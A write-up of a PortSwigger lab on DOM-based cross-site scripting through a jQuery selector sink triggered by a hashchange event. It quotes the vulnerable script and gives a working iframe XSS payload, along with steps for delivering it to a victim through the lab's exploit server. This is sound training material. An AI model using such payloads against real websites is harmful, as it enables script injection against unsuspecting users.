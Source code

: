 # DOM XSS in jQuery selector sink using a hashchange event

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event) contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

## Reproduction and proof of concept

1. Notice the vulnerable code on the home page using Burp or the browser's DevTools. 

```text
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

A [Jquery hashchange](https://github.com/apopelo/jquery-hashchange) event tracks URL history changes. When a change happens, `decodeURIComponent` is called on the `window.location.hash`. If that part of the page exists, the browser scrolls to it.

2. Create exploit:

```text
<iframe src="https://lab-id.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print(1)>'">
```

3. From the lab banner, open the exploit server.
4. For delivery, up top click on Go To Exploit Server, enter the exploit in the body field and **Store** the changes.

![DOM XSS](/_static/images/dom11.png)

5. Then click **View Exploit** to try it out on yourself. If that worked, click **Deliver Exploit to Victim**.

![DOM XSS](/_static/images/dom12.png)
